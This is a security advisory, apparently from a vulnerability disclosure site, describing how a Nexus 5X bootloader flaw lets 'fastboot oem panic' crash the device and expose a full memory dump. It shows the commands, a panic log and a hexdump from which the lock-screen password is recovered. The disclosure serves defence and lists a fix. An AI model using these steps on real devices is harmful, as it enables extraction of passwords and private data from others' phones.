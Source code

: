 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2016-09-01' 
alephid: ALEPH-2016000
date: '2016-09-05'
title: 'Google Nexus 5X Bootloader Unauthorized Memory Dumping via USB'
severity: critical
product:
    - Nexus 5X   
vulnerable:
    - Nexus 5X with Android 6.0 MDA39E through 6.0.1 MMB29V (bootloaders bhz10i/k)
    
mitigation: 'Upgrade to the latest version of Nexus (MHC19J or later)'

references:
    - src: SecurityIntelligence
      url: https://securityintelligence.com/going-inside-an-arbitrary-kernel-write-vulnerability-in-the-nexus-9/
      
---
```

A vulnerability in Nexus 5X's bootloader allows an attacker to obtain a full memory dump of the device. The vulnerability can be exploited by either physical attackers, or by non-physical ones having ADB (Android Debug Bridge) access to the device. One possible scenario where a non-physical attacker can have ADB access is by first targeting an ADB-authorized developer’s PC and infecting it with malware. Another way is by using malicious chargers targeting ADB-enabled devices. Using such chargers requires the (naïve) victim to authorize the charger once connected
The attacker reboots the phone into the well-known ‘fastboot’ mode, which can be done without any authentication. A physical attacker can do this by pressing the ‘Volume Down’ button during device boot. An attacker with ADB access can do this by issuing the ‘adb reboot bootloader’ command. The fastboot mode exposes a USB interface, which on locked devices must not allow any security sensitive operation to be commanded. However, what discovered was that if the attacker issued (via the fastboot USB interface) the ‘fastboot oem panic’ command, the bootloader would be forced to crash:
```
[38870] fastboot: oem panic
[38870] panic (frame 0xf9b1768):
[38870] r0  0x0f9972c4 r1  0x4e225c22 r2  0x7541206f r3  0x74206874
[38870] r4  0x0f9972e8 r5  0x0f96715c r6  0x0f9972f0 r7  0x0f9670ec
[38870] r8  0x0f92e070 r9  0x00000000 r10 0x00000000 r11 0x00000000
[38870] r12 0x0f92e070 usp 0x0f9650ec ulr 0x00000000 pc  0x0f99c75c
[38870] spsr 0x0f936964
[38870]  fiq r13 0x0f989490 r14 0x00000000
[38870]  irq r13 0x0f989490 r14 0x0f9004f4
[38870]  svc r13 0x0f9b16f0 r14 0x0f92dd0c
[38870]  und r13 0x0f989490 r14 0x00000000
[38870]  sys r13 0x00000000 r14 0x00000000
[38880] panic (caller 0xf936964): generate test-panic
```  

The problem is that in the vulnerable versions of the bootloader, such a crash caused the bootloader to expose a serial-over-USB connection, which allowed fetching a full memory dump of the device, using tools such as QPST Configuration.

To illustrate the severity of the attack, as the victim, I set the device password to “buggybootload3r” and then searched it in the memory dump:

```terminal
> hexdump DDRCS0_0.BIN | grep -10 bootloa
...
2675d060: 6f 00 69 00 64 00 2e 00 – 73 00 65 00 72 00 76 00 o.i.d… s.e.r.v.
2675d070: 69 00 63 00 65 00 2e 00 – 67 00 61 00 74 00 65 00 i.c.e… g.a.t.e.
2675d080: 6b 00 65 00 65 00 70 00 – 65 00 72 00 2e 00 49 00 k.e.e.p. e.r…I.
2675d090: 47 00 61 00 74 00 65 00 – 4b 00 65 00 65 00 70 00 G.a.t.e. K.e.e.p.
2675d0a0: 65 00 72 00 53 00 65 00 – 72 00 76 00 69 00 63 00 e.r.S.e. r.v.i.c.
2675d0b0: 65 00 00 00 00 00 00 00 – 3a 00 00 00 00 0d c4 b6 e……. ……..
2675d0c0: 6d 42 cd 0a b1 00 00 00 – 00 00 00 00 00 00 00 00 mB…… ……..
2675d0d0: 00 00 00 00 00 92 86 33 – e3 79 92 8b b7 d4 77 f5 …….3 .y….w.
2675d0e0: 94 7f d0 2b fb b8 6e cc – 98 3b 9a a7 0d 7c 60 f6 ……n. ……..
2675d0f0: d7 70 68 c2 14 01 00 00 – 0f 00 00 00 62 75 67 67 .ph….. ….bugg
2675d100: 79 62 6f 6f 74 6c 6f 61 – 64 33 72 00 62 75 67 67 ybootloa d3r.bugg
...
```
As one can see, the password can be found on the fetched memory dump. Physical attackers can then successfully boot the platform, which further allows them to impersonate the user, access data stored on the device and more.
